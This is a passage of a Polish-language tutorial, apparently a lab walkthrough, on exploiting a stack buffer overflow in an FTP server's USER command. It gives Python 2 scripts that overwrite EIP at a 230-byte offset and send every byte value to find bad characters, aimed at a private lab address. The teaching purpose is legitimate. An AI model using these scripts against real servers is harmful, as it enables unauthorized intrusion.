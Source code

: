 Po wykonaniu skryptu należy sprawdzić zawartość rejestru EIP na atakowanej maszynie, a następnie wkleić ją do narzędzia powiązanego z poprzednim, które podaje dokładną wartość offsetu:

![](https://i.imgur.com/hsZe8Lx.png)


## 3. Nadpisanie EIP.
Skoro poznaliśmy już dokładną wartość offsetu (u nas 230 bajtów) to możemy sprawdzić czy umiemy już dokładnie zmanipulować zawartość rejestru EIP. Możemy to zrobić na przykład wstawiając znaki 'B' tylko w miejsca, które mają nadpisać zawartość EIP. By to zrobić, można zmodyfikować skrypt w następujący sposób:

```
#!/usr/bin/python2
import socket,sys


string = 'A' * 230 + 'B' * 4 + 'C' * 20
print "Fuzzing PASS with %s bytes" % len(string)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.241.133',21))
s.recv(1024)
s.send('USER ' + string + '\r\n')
s.send('QUIT\r\n')
s.close()
```


A następnie go uruchomić i obserwować zmiany w zawartości rejestru EIP. Powinno pojawić się w nim ```42424242``` ponieważ znak 'B' w hex w ASCII to właśnie 42

![](https://i.imgur.com/WHV2eDc.png)

Gdy zobaczymy, że udało się wpisać ```42424242``` do rejestru EIP to znaczy, że już potrafimy dokładnie manipulować zawartością tego rejestru
## 4. Znalezienie Bad Characters.

- Tworzymy skrypt, który wstawi wszystkie możliwe bajty w miejsce gdzie później wstawiany będzie shellcode, takie działanie ma na celu identyfikacje tak zwanych "złych znaków" czyli takich bytów, które przerwą dalsze wczytywanie danych.
```
#!/usr/bin/python2
import socket,sys


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
	"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
	"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
	"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
	"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
	"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
	"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
	"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
	"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
	"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
	"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
	"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
	"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
	"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
	"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
	"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")


string = 'A' * 230 + 'B' * 4 + badchars
```